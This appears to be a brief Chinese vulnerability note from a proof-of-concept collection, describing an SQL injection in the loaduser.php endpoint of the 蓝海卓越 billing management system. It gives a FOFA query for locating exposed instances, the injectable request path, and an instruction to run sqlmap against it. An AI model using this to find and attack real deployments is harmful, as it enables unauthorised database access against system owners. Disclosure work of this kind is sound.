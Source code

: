 # 蓝海卓越 计费管理系统loaduser存在SQL注入漏洞

# 一、漏洞简介
蓝海卓越计费管理系统loaduser存在SQL注入漏洞

# 二、影响版本
+ 蓝海卓越 计费管理系统

# 三、资产测绘
+ fofa`title=="蓝海卓越计费管理系统"`
+ 特征

![1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9.png](./img/ZuWWFOBczG1cMdE2/1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9-863677.png)

# 四、漏洞复现
```plain
/ajax/loaduser.php?UserName=1
```

直接sqlmap跑

![1716368373510-b0b02332-cdaa-484d-9bce-f89aae5681d2.png](./img/ZuWWFOBczG1cMdE2/1716368373510-b0b02332-cdaa-484d-9bce-f89aae5681d2-215575.png)



> 更新: 2024-05-23 12:33:24  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dp8fzx7t8uhgpsam>